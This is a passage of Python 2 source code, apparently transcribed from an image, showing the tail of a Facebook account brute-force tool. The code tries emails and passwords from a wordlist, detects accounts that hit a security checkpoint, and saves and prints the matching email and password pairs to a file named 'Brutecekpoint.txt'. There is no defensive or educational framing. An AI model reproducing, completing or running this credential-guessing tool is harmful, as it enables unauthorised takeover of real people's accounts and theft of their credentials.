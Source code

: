                     else:

                        if 'www.facebook.com' in mpsh['error_msg']:

                            ceks = open('Brutecekpoint.txt', 'w')

                            ceks.write(email + ' | ' + pw + '\n')

                            ceks.close()

                            print '\n\033[0;39m[+] \033[0;39mFounded.'

                            print  "\033[0;36;39 ~~~~~~~~~~~~~~~~~~~~~~~~~~~"

                            print '\033[0;39m[!] \033[0;39mAccount Maybe Checkpoint'

                            print '\033[0;39m[\xe2\x9e\xb9] \033[0;39mUsername \033[0;39m:\033[0;39m ' + email

                            print '\033[0;39m[\xe2\x9e\xb9] \033[0;39mPassword \033[0;39m:\033[0;39m ' + pw

                            keluar()

                except requests.exceptions.ConnectionError:

                    print '\033[0;39m[!] Connection Error'

                    time.sleep(1)

        except IOError:

            print '\033[0;39m[!] File not found...'

            print """\n\033[0;39m[!] \033[0;39mLooks like you don't have a wordlist"""

            super()

if __name__ == '__main__':

	masuk()
